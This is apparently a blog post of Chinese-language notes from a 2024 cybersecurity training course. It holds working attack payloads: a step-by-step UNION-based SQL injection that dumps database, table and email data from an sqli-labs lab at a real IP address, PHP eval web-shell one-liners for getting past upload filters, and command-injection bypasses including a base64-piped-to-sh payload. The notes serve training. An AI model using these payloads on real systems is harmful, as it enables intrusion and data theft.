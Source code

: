 ```yaml
---
title: 2024网络安全培训
date: 2024-06-14 09:00:00
tags:
  - 培训
  - 网络安全
categories:
  - 培训
  - 网络安全
---
```


2024 网络安全培训部分笔记

<!-- more -->

# Burp Suite

安装后可以设置 proxy 端口，推荐使用 firefox 并安装代理切换插件如 ZeroOmega，配置代理为 Burp 的 proxy 端口；
然后在 Proxy--Intercept 界面设置 Intercept is on 即可拦截请求包，可修改/Send to Repeater(重复发包)/Send to Intruder(设置变量，配置字典进行爆破)；

# 脱库
1. 检查 sql 注入漏洞，构造闭合查询
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=1>' and 1=2-- -
2. 通过 order by 排序，得知查询结果列数
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=1>' order by 4-- -
3. 再根据目标的排序列数 进行联合查询
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=1>' union select 1, 2, 3-- -
4. 一个萝卜一个坑的概念 让前面的查询为空 我们后面构造的恶意语句就可以有地方回显了
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=-1>' union select 1, 2, 3-- -
5. 拖数据库的名字
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=-1>' union select 1, (database()), 3-- -
6. 拖表名字
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=-1>' union select 1, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 3-- -
7. 拖你感兴趣的表的列名字
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=-1>' union select 1, (select group_concat(column_name) from information_schema.columns where table_name="emails"), 3-- -
8. 拖字段
  > <http://120.46.58.198:28066/Tkitn/sqli-labs-master/Less-1/index.php?id=-1>' union select 1, (select group_concat(id, 0x3a, email_id) from emails), 3-- -

# 上传木马文件

1. 前端校验，不可靠
2. content-type校验：你上传的文件类型是不是 image/jpeg | image/png | image/gif
3. 校验你上传的文件后缀名是不是非法文件
  > 例如 php | jsp | aspx，绕过手段：直接用畸形后缀名，例如phtml 或者 php1-9
4. 内容校验
  > 校验文件头:GIF89a
5. 校验上传的内容有没有木马特征
  > 例如校验内容里面有没有 `<?`，绕过方式：`<script language="php">@eval($_POST['cmd']);</script>`
  >
  > 例如校验内容里面有没有php，绕过方式：`<?=@eval($_POST['xbw'])`;

# 命令执行

1. 管道符(能够支持你同时执行多条命令)
  > ;
  >
  > |
  >
  > &
  >
  > ||
  >
  > &&
2. 过滤空格（检测你的输入里面有没有空格 有空格我就拦截）
  > $IFS$9
  >
  > ${IFS}
  >
  > %09 url 编码
3. 如果目标过滤了特殊字符，例如 flag，可以用通配符代替
  > ?：代替单个字母
  > 
  > *：代替多个字母
4. 内联执行
  > **cat \`ls\`** ，ls 的结果会被 cat 执行
5. 拼接
  > a=fl;b=ag.php;cat $a$b
6. base64编码
  > target=127.0.0.1|echo Y2F0IC9mbGFn|base64 -d|sh
  >
  > Y2F0IC9mbGFn 这个是cat /flag的编码后结果